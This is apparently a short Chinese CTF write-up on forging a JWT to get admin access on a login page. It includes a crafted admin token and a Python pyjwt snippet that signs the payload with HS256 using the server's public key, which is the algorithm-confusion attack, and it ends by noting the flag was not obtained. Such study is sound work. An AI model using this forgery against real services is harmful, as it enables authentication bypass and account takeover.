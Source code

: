 登录入口信息及部分php提示

![image-20201021141803090](/images/jwt/image-20201021141803090.png)

提示如下：主要关注点下面，主要是对JWT算法并绕过获得flag。

![image-20201021141738055](/images/jwt/image-20201021141738055.png)

````
{"username":"admin","password":"admin","role":"admin"}
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.LURZ-AAb42YweV6rAylSGFB19J5A3dbTMQw0TieJ3u8
````

```
pip install pyjwt

import jwt
import base64
public = open('1.pem', 'r').read()
print jwt.encode({"username":"admin","password":"admin","role":"admin"}, key=public, algorithm='HS256')
```

`未获取flag！！！`

### Referer

```
https://xz.aliyun.com/t/6776
https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/
https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a
JWT绕过CTF
https://delcoding.github.io/2018/03/jwt-bypass/
https://www.ctfhub.com/
https://www.slideshare.net/OWASP_Poland/opd-2019-attacking-jwt-tokens
```

